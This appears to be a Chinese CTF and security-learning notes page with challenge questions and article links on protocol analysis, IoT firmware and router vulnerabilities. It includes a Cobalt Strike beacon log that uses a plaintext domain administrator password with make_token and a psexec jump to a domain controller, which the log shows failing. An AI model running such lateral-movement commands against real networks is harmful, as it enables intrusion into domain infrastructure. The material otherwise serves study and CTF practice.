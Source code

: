 ## Q & A 提问
- FAQ.one
- Windows 本地怎样启环境 运行 angr，像 linux 启动 pwn 题目那样。。想迷宫爆破。 -- 想 win 下启动迷宫题目支持 nc/telnet 连接
- web JustUpload-v2  反序列化
- png_4 题目怎么做
- 你文件没了快打钱.zip -- smc 题目 ， 1.多次运行后 sp 错误。 2.怎样解码后 patch 出来。并且能运行。
- my_asm 怎样重写为asm并编译运行
- fmtarg ($ecx) 怎么写用 ecx
- Misc  run.zip 有密码的什么东西
  -  Challenges\@todo 1.png
- re: 鹏城锦标赛\工控-驱动\drive.zip
- re_iot: 钢铁行业锦标赛\06firmware_reverse
- pwn:  为什么patchelf后不能运行 _要买些东西吗
- pwn: pwntools怎样设置编码来输出中文 shctf call_call_would_backdoor。

### cobalt strike

- 都有权限浏览域控，为啥不能上线？

```sh
beacon> make_token tide1\administrator 1qaz@WSX
[*] Tasked beacon to create a token for tide1\administrator
beacon> jump psexec DC smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_ce) on DC via Service Control Manager (\\DC\ADMIN$\cc76326.exe)
[+] host called home, sent: 287632 bytes
[+] Impersonated T1-COMPUTER\test
[-] could not upload file: 53
[-] Could not open service control manager on DC: 1722
[-] Could not connect to pipe: 53
beacon> ls \\192.168.61.129\C$
[*] Tasked beacon to list files in \\192.168.61.129\C$
[+] host called home, sent: 37 bytes
[*] Listing: \\192.168.61.129\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/19/2023 06:28:52   $Recycle.Bin
          dir     06/19/2023 22:13:56   001.env.python-3.5.1-embed-amd64
```

## 综合利用

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## TODO

exec 更改标准输入到 test
exec 1>test
whoami
cat test

# Articles

## QQ 群

829089482 赛事群

## 协议分析/Protocol/IoT

- [MQTT 安全分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492664&idx=1&sn=e18c8c1e7209f6bacddb85397eab85c9)
- [协议分析 | Bluetooth 蓝牙协议栈技术初探](https://mp.weixin.qq.com/s/1pG6jnvt3aqPrz5Vl6FIqg)
- [基于树莓派的蓝牙协议抓包](https://mp.weixin.qq.com/s/ftaqzXcP23ATsCms1qfgHg)
- [协议分析 | 简析 ARP 欺骗](https://mp.weixin.qq.com/s/WyFPxxjSLF-diSUA-cTRZA)
- [协议分析 | 对一个 apk 协议的继续分析—libsgmain 反混淆与逆向](https://mp.weixin.qq.com/s/s06dvT056fqkENIYoEHZ3w)
- [协议分析 | 【app 渗透】破解 apk app 协议 测试接口等安全](https://mp.weixin.qq.com/s/jAzwLDjrIWhGSSYcA1PyYw)
- [协议分析 | SNMP | 手把手玩转路由器漏洞挖掘系列 - SNMP协议分析](https://mp.weixin.qq.com/s/cceDMM4dJbC_IpexrMO8jg)
- [TLS 1.2 协议解析流程学习（一）](https://mp.weixin.qq.com/s/DS3ZMVSlHvIV0wIDrrmHpg)
- [HLS 无损下载 B 站直播 | HLS 协议从入门到实践](https://www.bilibili.com/video/BV1yL411k7DK/)
- [USB | USB基础知识介绍](https://mp.weixin.qq.com/s/i9tJ1gMOyGiw-wwQQ-g_-w)
- [USB | 用协议分析仪直观理解USB传输的核心概念](https://mp.weixin.qq.com/s/FXM1Kf0KCaVPEJapLysj3Q)

---

- [IOT 设备常见配置文件加解密分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496354&idx=1&sn=79f02dbebafeb18dfc3e962c489a560f)
- [Openwrt 进程间通信-Ubus](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494791&idx=1&sn=58ce08c883a7056af29163db8fac83c4)
- [家用智能灯泡的控制功能安全测试](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247497263&idx=1&sn=7cd7b78de1b751434da43238495511c4)
- [CVE-2020-3331 思科 RV110W 路由器命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492240&idx=1&sn=8bf9052411b68a17438006e846123cad)
- [EMUX 仿真 RV130 的栈溢出整型利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495867&idx=1&sn=4fd1f76459a06039734f667417b5090f)
- [基于树莓派实现 IOT 流量抓取](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492289&idx=1&sn=900759780e235368e5ec1ff54f6ac800)
- [固件符号表恢复](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491846&idx=1&sn=b04846dbd9d5a72601f2469674f3c7d9)

## 网络安全/项目/毕业设计

[科普大作：等保、分保、关保、密评（附下载）](https://mp.weixin.qq.com/s/B6itiRBUkm8dSgX9VGBQgw)
[实验室 2023 届 本科优秀毕业设计展示一——操作系统实践、代码保护](https://mp.weixin.qq.com/s/C_Ias9xu02c1MpQo0CSzRQ)
[实验室 2023 届 本科优秀毕业设计展示二——网络安全](https://mp.weixin.qq.com/s/IIMm-h6Fxota7XfN_07OJg)
[实验室 2023 届 本科优秀毕业设计展示三——安全工具](https://mp.weixin.qq.com/s/UM-gCy9MIw9PQMN7X3ofyg)
[实验室 2023 届 本科优秀毕业设计展示四——应用安全](https://mp.weixin.qq.com/s/-qTDBayECI8i11n-W1GEBg)
[获奖！立项！结题！](https://mp.weixin.qq.com/s/Q6n8JZ1VGdiAnEZNJZdDYw)

